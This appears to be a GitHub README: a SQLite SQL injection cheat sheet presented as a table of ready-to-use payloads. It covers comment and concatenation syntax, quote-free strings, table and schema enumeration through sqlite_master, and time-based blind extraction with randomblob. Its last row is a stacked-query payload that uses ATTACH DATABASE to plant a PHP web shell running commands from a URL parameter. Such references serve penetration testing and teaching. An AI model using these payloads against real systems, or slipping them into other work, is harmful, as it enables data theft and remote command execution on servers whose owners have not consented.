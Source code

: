 # SQLite SQL Injection Cheat Sheet

|If you need                  |                                    You use                                      |
|-----------------------------|:-------------------------------------------------------------------------------:|
|Concatenation                |                                     \|\|                                        |
|Comments                     |                                      --                                         |
|Conditionals                 |  CASE WHEN key='value1' THEN 'something' WHEN key='value2' THEN 'somethingelse' |
|Substring                    |                          substr(string,start,stop)                              |
|Length                       |                              length(string)                                     |
|Quotes without literal quotes|              cast(X'27' as text)  *--use X'22' for double quotes*               |
|Table name enumeration       |               SELECT name FROM sqlite_master WHERE type='table'                 |
|Table schema enumeration     |                SELECT sql FROM sqlite_master WHERE type='table'                 |
|Time-based data extraction   |    cond='true' AND 1=randomblob(100000000) *--causes time delay if cond='true'* |
|File writing                 |1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<? system($_GET[‘cmd’]); ?>’;-- *--requires either direct database access or (non-default) stacked query option enabled|


This work is based on http://atta.cked.me/home/sqlite3injectioncheatsheet
